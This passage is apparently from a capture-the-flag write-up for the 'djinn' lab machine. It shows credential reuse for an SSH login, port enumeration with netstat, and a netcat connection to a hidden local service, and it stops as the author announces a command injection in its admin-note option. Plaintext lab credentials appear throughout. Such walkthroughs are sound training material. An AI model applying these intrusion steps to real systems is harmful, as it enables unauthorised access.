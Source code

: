 Perfect, who needs meterpreter ;-)

Let's open the file now.

![](https://i.ibb.co/RB3nDFD/Screenshot-4.png)

Use the password we found before on `FTP` -> `nitu:7846A$56`

![](https://i.ibb.co/8PGZKbT/Screenshot-5.png)

Now we can login with `SSH`.

```bash
$ ssh nitish@$ip
nitish@192.168.1.4's password: 
nitish@djinn:~$
```

Perfect, now privesc is kinda tricky, let's list the listening connections with `netstat`.

```bash
nitish@djinn:~$ netstat -tnl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:7331            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:2843          0.0.0.0:*               LISTEN     
tcp6       0      0 :::21                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 ::1:25                  :::*                    LISTEN     
```

This seems interesting -> `127.0.0.1:2843`

Let's connect.

```bash
nitish@djinn:~$ nc localhost 2843
username: nitish
Password: &HtMGd$LJB
1. Show all members.
2. Add a new user.
3. Show all tasks.
4. Add a new task.
5. Add a note for admin.
6. Read notes.
7. Exit
=> 
```

I used the same creds, after some tries, i found a command injection `vulnerability` on `5. Add a note for admin.` :
